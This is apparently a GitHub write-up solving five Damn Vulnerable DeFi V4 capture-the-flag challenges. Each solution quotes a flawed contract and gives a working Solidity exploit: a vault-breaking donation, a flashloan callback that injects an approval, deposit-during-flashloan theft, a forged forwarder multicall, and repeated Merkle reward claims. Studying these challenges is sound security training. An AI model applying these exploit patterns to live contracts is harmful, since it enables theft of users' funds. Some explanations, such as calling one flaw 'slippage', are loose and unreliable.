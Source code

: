 # Damn Vulnerable DeFi

This is solutions of [Damn Vulnerable DeFi V4](https://www.damnvulnerabledefi.xyz)

### 1. Unstoppable

This topic is about vault flashloan. The idea comes from flashloan function that doing check in total supply and total assets. Let's see following the code below :

<details>

<summary> code </summary>

```javascript
function flashLoan(IERC3156FlashBorrower receiver, address _token, uint256 amount, bytes calldata data)
        external
        returns (bool)
    {
        if (amount == 0) revert InvalidAmount(0); // fail early
        if (address(asset) != _token) revert UnsupportedCurrency(); // enforce ERC3156 requirement
        uint256 balanceBefore = totalAssets();
@>        if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance(); // enforce ERC4626 requirement

        // transfer tokens out + execute callback on receiver
        ERC20(_token).safeTransfer(address(receiver), amount);

        // callback must return magic value, otherwise assume it failed
        uint256 fee = flashFee(_token, amount);
        if (
            receiver.onFlashLoan(msg.sender, address(asset), amount, fee, data)
                != keccak256("IERC3156FlashBorrower.onFlashLoan")
        ) {
            revert CallbackFailed();
        }

        // pull amount + fee from receiver, then pay the fee to the recipient
        ERC20(_token).safeTransferFrom(address(receiver), address(this), amount + fee);
        ERC20(_token).safeTransfer(feeRecipient, fee);

        return true;
    }

```

</details>

There is a difference between `totalSupply` and `totalAssets`. The `totalSupply` refers to the total amount of tokens that the `vault` has minted. Then, the `totalAssets` refers to all amount token DVT that the `vault` holds. So, if someone makes a transfer to `vault` with token DVT, The `totalAssets` will increase, creating a mismatch between `totalSupply` and `totalAssets`.

<details>

<summary> Solution </summary>

```javascript
    function test_unstoppable() public checkSolvedByPlayer {
        require(token.transfer(address(vault), INITIAL_PLAYER_TOKEN_BALANCE));
    }
```

</details>

### 2. Naive Receiver

In this topic, we work with flashloan, delegatecall and EIP-712 as well. In this case, the aims of the chalengge is moving all funds into recovery address and spending player funds. If we are not working with delegatecall, it is difficult to imagine how we would have difficult with it. Also, EIP-712 has it's own difficulty. In short, i have a scenario that :
- make 10 flashloans to spend player funds
- make one transaction to move all of funds to the recovery address
- keep all commands with the encode function with ABI
- At my difficulty, changing the format to EIP-712 is the hardest part

<details>

<summary> Solution </summary>

```javascript
function test_naiveReceiver() public checkSolvedByPlayer {
        bytes[] memory callDatas = new bytes[](11);
        for(uint8 i; i<10; i++){
            callDatas[i] = abi.encodeCall(pool.flashLoan, (receiver, address(weth), 0, ""));
        }
        callDatas[10] = abi.encodePacked(abi.encodeCall(pool.withdraw, (WETH_IN_POOL + WETH_IN_RECEIVER, payable(recovery))), bytes32(uint256(uint160(deployer))));        
        bytes memory message = abi.encodeCall(pool.multicall, callDatas);
        BasicForwarder.Request memory request = BasicForwarder.Request({
            from: player,
            target: address(pool),
            value: 0,
            gas: 30000000,
            nonce: forwarder.nonces(player),
            data: message,
            deadline: 1 days
        });

       bytes32 messageHash = keccak256(abi.encodePacked(
        "\x19\x01", 
        forwarder.domainSeparator(),
        forwarder.getDataHash(request)
       ));

       (uint8 v, bytes32 r, bytes32 s) = vm.sign(playerPk, messageHash);
        bytes memory signature = abi.encodePacked(r, s, v);

        forwarder.execute(request, signature);
    }

```

</details>

### 3. Truster

Also in this topic, we work again with flashloan. The story that is the deployer sends many funds to the lender pool. If we are serious about reading the code, there are many things that look weird. Let focus with the following code below : 

<details>

<summary> Code </summary>

```javascript
function flashLoan(uint256 amount, address borrower, address target, bytes calldata data)
        external
        nonReentrant
        returns (bool)
    {
        uint256 balanceBefore = token.balanceOf(address(this));

        token.transfer(borrower, amount);
@>      target.functionCall(data);

@>      if (token.balanceOf(address(this)) < balanceBefore) {
@>          revert RepayFailed();
        }

        return true;
    }
```

</details>

After seing the code, we must have some questions. Why does the protocol allow the low-level calls with unclear purposes? It can enable a players to set up the protocol at their will. So, the scenario would be :
- Take a flashloan with a zero amount
- Using a low-level call to get approval from the protocol for the attacker's address
- the attacker makes the transfer directly with the address token.

<details>

<summary> Solution </summary>

```javascript
function test_truster() public checkSolvedByPlayer {
        MaliciousUser attacker = new MaliciousUser(address(token), address(pool), recovery);
        attacker.attack();
    }

contract MaliciousUser {
    DamnValuableToken token;
    TrusterLenderPool pool;
    address recovery;

    constructor(address _token, address _pool, address _recovery){
        token = DamnValuableToken(_token);
        pool = TrusterLenderPool(_pool);
        recovery = _recovery;
    }

    function attack() public {
        uint256 amountOfPool = token.balanceOf(address(pool));

        pool.flashLoan({
            amount: 0,
            borrower: address(this),
            target: address(token),
            data: abi.encodeWithSignature("approve(address,uint256)", address(this), amountOfPool)
        });

        token.transferFrom(address(pool), recovery, amountOfPool);
    }
    
}
```

</details>

### 4. Side Entrance

In many case above, the format of the funds is wrapped by an ERC-2O token. But here, the flashloan is provided with native ether. The problem arise with slippage protection. Let's jump into the code : 

<details>

<summary> Code </summary>

```javascript
 function flashLoan(uint256 amount) external {
        uint256 balanceBefore = address(this).balance;

        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

@>      if (address(this).balance < balanceBefore) {
            revert RepayFailed();
        }
    }
```

</details>

The vulnerability lies in slippage when the protocol checks the total balance before and after transactions. So, i have an idea that we can take a flashloan. After that, we make a deposit directly to ensure that the total balance before and after transaction stays same. Let's jump into this scenario :
- The attacker take a flashloan with all of amount the pool
- After that, the attacker make a deposit to the pool to make total balances stay same
- The attacker send to the balance to the recovery account

<details>

<summary> Solution </summary>

```javascript
 function test_sideEntrance() public checkSolvedByPlayer {
        MaliciousUser attacker = new MaliciousUser(address(pool));
        attacker.attack();
        attacker.sendToRecovery(recovery);
    }

contract MaliciousUser is IFlashLoanEtherReceiver {
    SideEntranceLenderPool pool;

    constructor(address _pool) {
        pool = SideEntranceLenderPool(_pool);
    }

    function attack() public {
        uint256 amountOfPool = address(pool).balance;
        pool.flashLoan(amountOfPool);
    }

    function execute() external payable {
        pool.deposit{value: address(this).balance}();
    }

    function sendToRecovery(address _recovery) public {
        pool.withdraw();

        (bool sucsess, ) = _recovery.call{value: address(this).balance}("");
        require(sucsess, "Send failed");
    }

    receive() external payable {}
}

```

</details>

### 5. The rewarder

Let’s break down the `test_theRewarder` function, which is designed to interact with a reward distribution system in a DeFi application. This function involves claiming rewards from a distribution contract and then transferring the claimed rewards to a recovery address.

#### Function Breakdown

<details>

<summary> Code </summary>


```javascript
function test_theRewarder() public checkSolvedByPlayer {
    IERC20[] memory tokensToClaim = new IERC20[](2);
    tokensToClaim[0] = IERC20(address(dvt));
    tokensToClaim[1] = IERC20(address(weth));

    bytes32[] memory dvtLeaves = _loadRewards("/test/the-rewarder/dvt-distribution.json");
    bytes32[] memory wethLeaves = _loadRewards("/test/the-rewarder/weth-distribution.json");

    uint256 player_amount_dvt = 11524763827831882;
    uint256 player_amount_weth = 1171088749244340;

    uint256 txDvt = TOTAL_DVT_DISTRIBUTION_AMOUNT / player_amount_dvt;
    uint256 txWeth = TOTAL_WETH_DISTRIBUTION_AMOUNT / player_amount_weth;
    uint256 txTotal = txDvt + txWeth;

    Claim[] memory claimsOfPlayer = new Claim[](txTotal);
    for(uint i; i < txTotal; i++){
        if(i < txDvt){
            claimsOfPlayer[i] = Claim({
                batchNumber: 0, // claim corresponds to first DVT batch
                amount: player_amount_dvt,
                tokenIndex: 0, // claim corresponds to first token in `tokensToClaim` array
                proof: merkle.getProof(dvtLeaves, 188) // Alice's address is at index 2
            });  
        }else{
            claimsOfPlayer[i] = Claim({
                batchNumber: 0, // claim corresponds to first DVT batch
                amount: player_amount_weth,
                tokenIndex: 1, // claim corresponds to second token in `tokensToClaim` array
                proof: merkle.getProof(wethLeaves, 188) // Alice's address is at index 2
            });
        }
    }
    
    distributor.claimRewards({inputClaims: claimsOfPlayer, inputTokens: tokensToClaim});
    weth.transfer(recovery, weth.balanceOf(player));
    dvt.transfer(recovery, dvt.balanceOf(player));
}
```

</details>

#### Detailed Explanation

1. **Define Tokens to Claim:**
   ```javascript
   IERC20[] memory tokensToClaim = new IERC20[](2);
   tokensToClaim[0] = IERC20(address(dvt));
   tokensToClaim[1] = IERC20(address(weth));
   ```
   - Create an array `tokensToClaim` that holds two ERC20 tokens: `dvt` and `weth`. These are the tokens from which rewards will be claimed.

2. **Load Merkle Tree Leaves:**
   ```javascript
   bytes32[] memory dvtLeaves = _loadRewards("/test/the-rewarder/dvt-distribution.json");
   bytes32[] memory wethLeaves = _loadRewards("/test/the-rewarder/weth-distribution.json");
   ```
   - Load the Merkle tree leaves for DVT and WETH distributions from JSON files. These leaves will be used to prove the validity of the claims.

3. **Define Amounts and Calculations:**
   ```javascript
   uint256 player_amount_dvt = 11524763827831882;
   uint256 player_amount_weth = 1171088749244340;
   ```
   - These are the amounts of DVT and WETH that the player is expected to claim.

   ```javascript
   uint256 txDvt = TOTAL_DVT_DISTRIBUTION_AMOUNT / player_amount_dvt;
   uint256 txWeth = TOTAL_WETH_DISTRIBUTION_AMOUNT / player_amount_weth;
   uint256 txTotal = txDvt + txWeth;
   ```
   - Calculate the number of claims needed for both DVT and WETH based on the total distribution amount and the player’s claim amounts. `txTotal` represents the total number of claims.

4. **Create Claims Array:**
   ```javascript
   Claim[] memory claimsOfPlayer = new Claim[](txTotal);
   for(uint i; i < txTotal; i++){
       if(i < txDvt){
           claimsOfPlayer[i] = Claim({
               batchNumber: 0, // claim corresponds to first DVT batch
               amount: player_amount_dvt,
               tokenIndex: 0, // claim corresponds to first token in `tokensToClaim` array
               proof: merkle.getProof(dvtLeaves, 188) // Alice's address is at index 2
           });  
       }else{
           claimsOfPlayer[i] = Claim({
               batchNumber: 0, // claim corresponds to first DVT batch
               amount: player_amount_weth,
               tokenIndex: 1, // claim corresponds to second token in `tokensToClaim` array
               proof: merkle.getProof(wethLeaves, 188) // Alice's address is at index 2
           });
       }
   }
   ```
   - Initialize an array `claimsOfPlayer` of size `txTotal`. Each entry in the array is a `Claim` object.
   - Loop through the total claims and populate each `Claim` object based on whether it is for DVT or WETH. Use Merkle proofs for each claim to validate it.

5. **Claim Rewards:**
   ```javascript
   distributor.claimRewards({inputClaims: claimsOfPlayer, inputTokens: tokensToClaim});
   ```
   - Call the `claimRewards` function on the `distributor` contract to claim the rewards using the `claimsOfPlayer` and `tokensToClaim` arrays.

6. **Transfer Claimed Tokens:**
   ```javascript
   weth.transfer(recovery, weth.balanceOf(player));
   dvt.transfer(recovery, dvt.balanceOf(player));
   ```
   - Transfer the entire balance of WETH and DVT held by the player to a recovery address. This action ensures that the claimed rewards are moved to a secure address.

#### Summary

The `test_theRewarder` function is designed to:
- Prepare and submit claims for rewards from a reward distribution contract.
- Use Merkle proofs to authenticate the claims.
- Transfer the claimed rewards to a specified recovery address.

This function is typically used to demonstrate how to exploit vulnerabilities in reward distribution mechanisms or to ensure the correct implementation of reward claiming logic in a DeFi application.